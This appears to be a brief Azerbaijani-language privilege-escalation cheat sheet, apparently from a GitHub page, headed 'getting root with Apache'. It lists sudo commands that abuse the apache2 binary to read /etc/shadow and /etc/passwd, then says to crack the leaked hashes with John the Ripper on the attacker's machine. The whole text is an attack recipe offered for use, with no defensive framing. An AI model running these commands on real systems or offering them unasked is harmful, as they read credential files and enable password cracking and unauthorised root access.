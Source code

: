 ## APCHE ILE ROOTA QALXMAQ
    sudo apache2 -f /etc/shadow
  
    sudo apache2 -f /etc/passwd
## daha sonra john ile atck masinimizda isledirik
